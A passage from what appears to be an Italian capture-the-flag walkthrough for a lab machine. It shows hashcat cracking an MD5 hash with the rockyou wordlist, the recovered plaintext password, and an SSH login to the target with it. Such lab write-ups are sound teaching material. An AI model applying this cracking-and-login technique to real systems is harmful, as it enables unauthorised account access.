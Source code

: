```shell
Host memory required for this attack: 2 MB

Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

412dd4759978acfcc81deab01b382403:underwaterfriends        
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 412dd4759978acfcc81deab01b382403
Time.Started.....: Sun Oct 12 15:06:25 2025 (2 secs)
Time.Estimated...: Sun Oct 12 15:06:27 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1295.6 kH/s (0.62ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2990080/14344385 (20.84%)
Rejected.........: 0/2990080 (0.00%)
Restore.Point....: 2981888/14344385 (20.79%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: unicornn -> uly9999
Hardware.Mon.#1..: Util: 26%

Started: Sun Oct 12 15:06:00 2025
Stopped: Sun Oct 12 15:06:28 2025
```

Abbiamo trovato la password! Loggiamoci tramite ssh all'host.

```shell
┌─[dua2z3rr@parrot]─[~]
└──╼ $ssh svcMosh@10.10.11.48
The authenticity of host '10.10.11.48 (10.10.11.48)' can't be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.48' (ED25519) to the list of known hosts.
svcMosh@10.10.11.48's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Oct 12 01:07:38 PM UTC 2025

  System load:  0.0               Processes:             225
  Usage of /:   51.6% of 6.56GB   Users logged in:       0
  Memory usage: 14%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
```
